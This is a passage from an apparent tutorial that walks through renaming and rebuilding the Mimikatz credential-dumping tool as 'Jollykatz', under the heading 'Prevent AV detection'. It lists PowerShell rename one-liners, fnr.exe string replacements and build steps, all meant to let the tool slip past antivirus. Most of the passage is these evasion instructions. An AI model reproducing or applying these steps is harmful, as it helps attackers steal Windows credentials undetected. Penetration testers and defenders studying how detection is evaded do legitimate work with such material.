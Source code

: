 NOTE: the installation commences

- Click "LAUNCH" after install completes
- Click "Not now, maybe later." in the Welcome screen
- Select "General" and Select "Blue" and Click "Start Visual Studio"

### Prevent AV detection on Mimikatz:

Extract mimikatz-master.zip to C:\\jollykatz\\ (you should end up with C:\\jollykatz\\mimikatz-master\\mimikatz.sln" and a whole bunch of files/folders)

run the following in a cmd.exe to rename all files and folders to from "mimi" to "jolly":

{% highlight shell-session %}
powershell.exe -noprofile -command "1..10 | % {Get-ChildItem c:\\jollykatz\\ -Filter \\"*mimi*\\" -Recurse | Rename-Item -NewName {$_.name -replace 'mimi','jolly' }}"

powershell.exe -noprofile -command "1..10 | % {Get-ChildItem c:\\jollykatz\\ -Filter \\"*kuhl*\\" -Recurse | Rename-Item -NewName {$_.name -replace 'kuhl','frog' }}"

run fnr.exe with following settings:
Dir: C:\\jollykatz\\
Tick "Include sub-directories
File Mask: *.*
Find: mimi
replace: jolly
Click "replace"
run fnr.exe with following settings:
Dir: C:\\jollykatz\\
Tick "Include sub-directories
File Mask: *.*
Find: kuhl
replace: frog
Click "replace"
run fnr.exe with following settings:
Dir: C:\\jollykatz\\
Tick "Include sub-directories
File Mask: *.*
Find: eo.oe.kiwi ![](http://cdn.techexams.net/images/smilies/icon_smile.gif "Smile")
replace: THINC.local
Click "replace"
Close fnr.exe

Copy "EncodePointer.lib" to C:\\jollykatz\\jollykatz-master\\lib\\Win32
Copy "EncodePointer.lib" to C:\\jollykatz\\jollykatz-master\\lib\\x64
NOTE: We're adding "EncodePointer.lib" because WinXP SP0/SP1 would error out with a DecodePointer error caused by compiling with VS2013
{% endhighlight %}

### Now we'll build "Jollykatz":

- Double-click on "C:\\jollykatz\\jollykatz-master\\jollykatz.sln"

NOTE: Visual Studio Community Edition opens your project
